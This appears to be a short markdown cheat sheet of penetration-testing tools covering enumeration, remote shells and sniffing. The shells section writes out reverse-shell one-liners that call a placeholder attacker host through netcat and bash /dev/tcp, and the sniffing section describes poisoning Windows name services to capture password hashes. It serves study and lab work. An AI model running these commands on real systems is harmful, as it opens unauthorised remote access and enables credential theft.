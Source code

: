 # Overview of Tools
## Enumeration
Tools for data gathering, analysis of infrastructure, enumeration. This includes tools like port scanning, service discovery, web content scanner.

| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- | ----- |
| nmap | Port scanning | Scan for open ports and services, contains some scripts for automating tasks | Ports, Web, CVE |
| legion | NMAP GUI with some integrations | Scan for ports and open services, run NMAP scripts ans some service related tools | Ports, Web, CVE, GUI |
| dirb | Web content scanner | Crawls a webpage and finds hidden directories based on a wordlist | Wordlist, Web Content Scanner, Crawler, Directory |
| gobuster | Web content scanner, just brute force based with wordlists | Brute forces URIs and subdomains of a Web server | Wordlist, Web content scanner, Directory, DNS, Domains, URL |

## Remote access, Shells
Getting a shell and access to a target system.

| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- | ----- |
| evil-winrm | A shell for Windows Remote Management focused on the evil side. It includes some tools for exploiting the target after gaining access. | WinRM shell access + exploiting target | WinRM, Remote Shell, Payloads, Exploiting |
| `netcat -lvp <port>` |  A netcat listener for incoming connections | Used for listening for the remote shell | Remote Shell, TCP, Listener |
| `netcat <attacker ip> <port> -e <the shell executable>` | Sends process output to a TCP connection and gets input from TCP connection | Used for opening a reverse shell (victim to target) on the target | Remote Shell, TCP |
| `bash -i >& /dev/tcp/<ATTACKER-IP>/<ATTACKER-PORT> 0>&1` | Sends process output to a TCP connection and gets input from TCP connection | Used for opening a reverse shell (victim to target) on the target if netcat is not usable for some reason (of if you don't want to download an extra file). It uses piping from bash to a tcp socket. | Bash, Reverse Shell, TCP |

## Sniffing
Packet and network sniffing for various protocols.

| Tools | Description | Use | Tags |
| ----- | ----- | ----- | ----- | ----- |
| tcpdump | TCP, UDP, ICMP packet sniffer | Used to sniff connections | TCP, UDP, ICMP, Sniffing |
| responder | NBT-NS, LLMNR & MDNS Responder | Used to poison windows specific services, gathering password hashes from the service request (for example from NTLM) etc. | NTLM, Responder, Windows, NetBIOS, NBT-NS, LLMNR, Link-Local Multicast Name Resolution |
